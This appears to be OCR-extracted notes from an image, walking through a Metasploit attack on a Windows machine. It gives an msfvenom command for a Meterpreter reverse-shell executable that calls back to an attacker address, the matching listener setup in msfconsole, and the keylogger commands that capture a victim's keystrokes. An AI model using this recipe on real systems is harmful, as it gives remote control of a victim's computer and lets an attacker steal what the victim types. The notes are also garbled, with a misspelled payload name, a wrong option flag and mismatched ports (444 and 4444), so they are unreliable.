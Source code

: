  msfvenom -p windows/x64/metepreter/reverse_tcp LHOST=192.168.1.7 LPORT=444 -f exe -0 shell.exe
 as the first command to create the meterpreter shell
 -p => payload
 LHOST is local IIP
 LPORT, is the port
 -f means output file is an .exe file
 -o is to name the output file

 setting up a listener using the msfconsole

 msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit (multi/handler) > set payload windows/x64/metepreter/reverse_tcp
payload => windows/x64/metepreter/reverse_tcp
msf6 exploit (multi/handler) > set LHOST 192.168.1.7
LHOST => 192.168.1.7
msf6 exploit (multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run

then run the shell.exe command


    keyscan_start - this will start the keylogger on the Windows machine
    keyscan_dump - this will output everything to the Kali Linux terminal that was typed in the Windows keyboard since the keylogger was started
